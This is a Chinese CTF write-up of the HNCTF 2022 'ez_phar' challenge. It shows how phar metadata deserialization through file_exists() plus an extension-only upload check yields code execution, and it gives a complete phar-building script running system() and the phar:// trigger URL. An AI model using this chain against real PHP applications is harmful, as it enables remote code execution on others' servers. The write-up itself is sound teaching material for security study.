


---
date: 2026-10-27
slug: hnctf2022-ezphar
categories:
  - 反序列化
  - phar
---

# [HNCTF 2022 WEEK3] ez_phar

## 源码



```php
<?php
show_source(__FILE__);
class Flag{
    public $code;
    public function __destruct(){
        // TODO: Implement __destruct() method.
        eval($this->code);
    }
}
$filename = $_GET['filename'];
file_exists($filename);
?>
upload something
```

审计代码发现只要触发 `__destruct` 就可以执行代码，所以要想办法触发 `__destruct`。

想到 phar 反序列化可以在**没有 `unserialize()`** 的情况下触发 `__destruct` —— 代码里唯一的入口就是 `file_exists($filename)`，而它正好是能吃 `phar://` 的文件函数。

**为什么能这样**：phar 文件的 manifest 里可以存一段序列化 metadata；任何函数只要访问 `phar://` 开头的路径，PHP 就会解析这个 phar，解析时把 metadata **自动反序列化** —— 于是对象被重建，脚本结束时 `__destruct()` 自动执行。

## 找上传点

源代码强调了 upload，去访问一下 `upload.php`。

先随便尝试上传一个 txt 文件，提示只能 jpg/jpeg。

**将 txt 文件修改后缀可以直接上传**，所以就明确了这道题的方向：构造一个 phar 文件，修改后缀为 jpg 上传之后通过 `phar://` 触发。

## 造 phar



```php
<?php
class Flag {
    public $code;
}

$f = new Flag();
$f->code = "system('cat /fffl11laaaggg');";   // 第一步是 ls / 先找到 flag 文件

$p = new Phar(__DIR__.'/b.phar');
$p->startBuffering();
$p->addFromString('test.txt', 'x');
$p->setStub('<?php __HALT_COMPILER(); ?>');
$p->setMetadata($f);
$p->stopBuffering();
?>
```

php 文件写好后通过 shell 执行：

```powershell
php.exe -d phar.readonly=0 ds.php
```

就会生成一个 `b.phar` 的文件，将其后缀改完后上传。

## 触发

**第一次我让 `code` 写的是 `ls /`（想先找 flag 文件），页面返回：**

```text
Parse error: syntax error, unexpected end of file
in /var/www/html/index.php(7) : eval()'d code on line 1
```

**这行报错其实是**最好的证据** —— 它同时说明了三件事：**

| 报错里的信息 | 说明 |
|---|---|
| `eval()'d code` | `__destruct()` 真的执行了 |
| `index.php(7)` | 就是源码里 `eval($this->code);` 那一行 |
| `syntax error` | phar 被解析、metadata 反序列化成功，只是 `ls /` 不是合法 PHP |

**也就是说链路已经通了，只是内容不对。** 把 `code` 换成合法的 PHP 语句后：

最终 payload：

```text
?filename=phar://upload/b.jpg/test.txt
```

成功得到 flag。
